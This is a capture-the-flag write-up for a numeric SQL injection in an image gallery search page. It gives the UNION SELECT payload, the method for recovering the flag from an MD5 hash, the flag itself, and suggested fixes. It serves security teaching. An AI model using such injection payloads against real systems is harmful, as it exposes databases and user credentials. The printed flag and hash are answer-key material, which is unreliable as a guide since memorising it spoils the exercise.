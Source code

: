 # SQL Numeric Injection - Gallery

## Flag

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Description

Vulnerable SQL.

## URL

http://192.168.x.y/?page=searchimg

## Steps To Reproduce

Insert this payload :
`UNION ALL SELECT comment, title FROM list_images--`

To see, as comment for the Hack me ? picture :
`If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`
Reverse the md5 hash with crackstation, lowercase the result, then sha256 the lowercased result to get the flag.

## Why is it dangerous ?

UNION SQL exploits can let malicious users get database structure informations or user credentials (including admin ones)

## Possible fixes

- Limit the user input to numeric, with intval() for exemple
- Hash the passwords with a complex algorithm to limit the damages if someone get access to your databases anyway

## Resources

There is no additional resource for this issue.
